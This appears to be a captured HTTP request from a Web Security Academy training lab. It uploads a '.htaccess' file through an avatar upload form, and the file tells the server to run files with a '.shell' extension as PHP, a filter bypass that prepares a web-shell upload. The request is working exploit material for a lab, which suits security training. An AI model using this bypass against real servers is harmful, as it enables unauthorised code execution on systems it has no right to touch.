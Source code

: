 POST /my-account/avatar HTTP/1.1
Host: 0a4d00860388c2d3c045073f00280058.web-security-academy.net
Cookie: session=XPt1V9nKwHv0zITpM2EIQSD35uXMO4yN
Content-Length: 447
Cache-Control: max-age=0
Sec-Ch-Ua: "Google Chrome";v="107", "Chromium";v="107", "Not=A?Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0a4d00860388c2d3c045073f00280058.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryjB5sAOv3rj8HihRZ
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a4d00860388c2d3c045073f00280058.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

------WebKitFormBoundaryjB5sAOv3rj8HihRZ
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: text/plain

AddType application/x-httpd-php .shell


------WebKitFormBoundaryjB5sAOv3rj8HihRZ
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryjB5sAOv3rj8HihRZ
Content-Disposition: form-data; name="csrf"

QzETx3WVPIDKWFwIdX4FymQcRbOjjNlZ
------WebKitFormBoundaryjB5sAOv3rj8HihRZ--
